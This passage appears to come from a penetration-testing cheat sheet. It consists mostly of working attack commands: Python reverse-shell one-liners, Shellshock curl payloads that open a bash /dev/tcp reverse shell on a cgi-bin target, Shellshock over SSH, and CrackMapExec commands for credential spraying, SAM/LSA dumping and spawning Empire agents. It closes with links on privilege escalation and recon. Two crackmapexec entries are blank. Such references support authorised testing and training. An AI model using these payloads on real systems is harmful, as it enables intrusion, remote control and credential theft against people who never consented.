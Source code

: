 ### **Reverse shell using interpreters ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))**

- `python -c python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- `python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`

### **Shellshock**

- `curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" TARGETADDRESS/cgi-bin/status`
- `curl -x 192.168.28.167:PORT -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.28.169/1234 0>&1" 192.168.28.167/cgi-bin/status`
- `ssh username@IPADDRESS '() { :;}; /bin/bash'`
  - Shellshock over SSH

# CrackMapExec

-       crackmapexec
  - Spray the network with local login credentials then dump SAM contents
-       crackmapexec
  - Pass the hash network-wide, local login, dump LSA contents
-       crackmapexec smb 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
  - Requires Empire Restful API to be running. It will spray supply credentials and pop an empire agent on any successful login. Read more [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Getting-Shells-101)

# **Resources & Links**

## **Windows Privilege Escalation**

[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

[https://toshellandback.com/2015/11/24/ms-priv-esc/](https://toshellandback.com/2015/11/24/ms-priv-esc/)

## **SQL & Apache Log paths**

[http://www.itninja.com/blog/view/mysql-and-apache-profile-log-path-locations](http://www.itninja.com/blog/view/mysql-and-apache-profile-log-path-locations)

## **Recon**

[https://bitvijays.github.io/blog/2015/04/09/learning-from-the-field-intelligence-gathering/](https://bitvijays.github.io/blog/2015/04/09/learning-from-the-field-intelligence-gathering/)
